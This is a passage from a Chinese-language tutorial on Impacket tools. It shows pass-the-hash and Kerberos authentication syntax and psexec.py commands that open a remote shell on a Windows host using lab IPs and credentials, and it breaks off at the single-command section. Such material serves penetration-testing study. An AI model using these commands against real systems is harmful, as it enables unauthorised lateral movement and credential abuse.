 ### hash 认证

```plain
py -3 xxx.py domain/user@ip -hashes :161cff084477fe596a5db81874498a24
```

### Kerberos 认证

```plain
export KRB5CCNAME=ad01.ccache 
py -3 xxx.py -k -no-pass
```

### 指定目标 IP

```plain
-target-ip 192.168.40.156
```

[![](assets/1702372846-031c7644638bf22414042ca27609079f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124122856-82299bf8-6bb0-1.png)

### 指定域控 IP

```plain
-dc-ip 192.168.40.156
```

## 远程执行

### psexec.py

可使用密码认证、hash 认证、kerberos 认证。

#### 常用命令

**交互式 Shell**

```plain
py -3 psexec.py test/administrator:1qaz@WSX@192.168.40.156
```

**执行单命令**
